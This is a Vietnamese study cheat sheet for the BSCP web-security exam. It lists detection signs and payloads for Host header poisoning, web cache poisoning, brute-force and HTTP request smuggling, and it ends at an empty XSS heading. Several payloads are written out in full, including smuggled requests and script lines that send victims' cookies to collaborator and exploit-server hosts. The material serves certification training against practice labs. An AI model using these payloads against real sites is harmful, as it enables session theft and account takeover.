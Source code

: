 # BSCP

# Stage1

## Host header

- Dấu hiệu: (Host được reflect trong src của thẻ <script>)

```
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

- Payload: Reset password về host của mình để lấy reset link
- Bypass: exploit?host

## Web cache

- Dấu hiệu: Trong response có header: `X-cache`. Có file js `/resources/js/tracking.js`
- Payload:

```jsx
document.location='https://collaboration.net/?cookies='+document.cookie;
```

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fa30518-8ebc-446e-b540-305cb3ed385c/219ccee3-e333-4020-b01f-4cf801a23fdc/Untitled.png)

## Brute-force

Sử dụng wordlist username/password được cấp để bruteforce ( Test cuối cùng nếu như không detect được các dạng bài khác) 

## HTTP Smuggling

- Dấu hiệu: Dùng tool quét
- Payload
    - CL-TE:
    
    ```jsx
    POST /?d4pN=378814766 HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.
    0) Gecko/20100101 Firefox/122.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.
    9,image/avif,image/webp,*/*;q=0.8
    Transfer-Encoding: chunked
    Transfer-Encoding: xND5yJgk
    Content-Length: 960
    Connection: keep-alive
    
    1f
    v1bph=x&search-term=aaa&skll7=x
    0
    
    GET /post?postId=1 HTTP/1.1
    Host: 0ab100070329be91809ca3db008700c1.web-security-academy.n
    et
    Cookie: session=SIoADJ8O44rX2T53Nyntl9r0unPzMT1k; _lab_analyt
    ics=zilzDMN1ibdniLZxFPcJHpTKC5RSasZEut80UWGkQxdwDNDwAY8zNagIc
    drw5FOtTJ6FVCCCGAABVUFwNha73e8bEpU7WMzFu83WHy8ZdPlIMPg5tsqE86
    GO1S50R4n4OFK8AFdchukqjhOFUsAJNQxu4uvUKiTzeMQPuAkFZvL7kbnN6t4
    aoBS7qCK5sUK1L1mhKccADkDiScpPtDRDSSqAaWa7WLHvjRTn6dqiBI48pMPm
    bPxpPnxvZA6pGmbd; _lab=46%7cMCwCFDonoE4LDLE1bnes4x5%2fO%2bw1S
    E%2b2AhQzFnfs7ROBnfFFWG%2b93AP1ObrDX%2b5jvsTXoqZ9bfXgdbzdiYZp
    vhEInuGk3MWBbsmIPzCS3wJ0e1HoDZONH3Jp%2bSpfG8IPhMb6IzAXnHO9e%2
    f%2b2EnJhEB6kn4btpBr3tTTVi3yVrKnDewY%3d
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.
    0) Gecko/20100101 Firefox/122.0"><script>location.href="http
    s:///exploit-0a5400cb03f8be9580d3a23e017d0088.exploit-server.
    net/?c="+document.cookie</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15
    
    x=1
    ```
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fa30518-8ebc-446e-b540-305cb3ed385c/0e5df2b8-fb71-43b1-9fee-11c0ff49b0d1/Untitled.png)
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fa30518-8ebc-446e-b540-305cb3ed385c/db5af1d3-9b41-42e1-bc25-52d97e0f5688/Untitled.png)
    
    - **TE.CL dualchunk**
    
    ```jsx
    POST / HTTP/1.1
    Host: TARGET.net
    Content-Type: application/x-www-form-urlencoded
    Content-length: 4
    Transfer-Encoding: chunked
    Transfer-encoding: identity
    
    e6
    GET /post?postId=4 HTTP/1.1
    User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?c='+document.cookie;</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15
    
    x=1
    0\r\n  
    \r\n
    ```
    

## XSS

- Dấu hiệu:
    - Có file js/script lạ
    - SearchTerm
- Payload
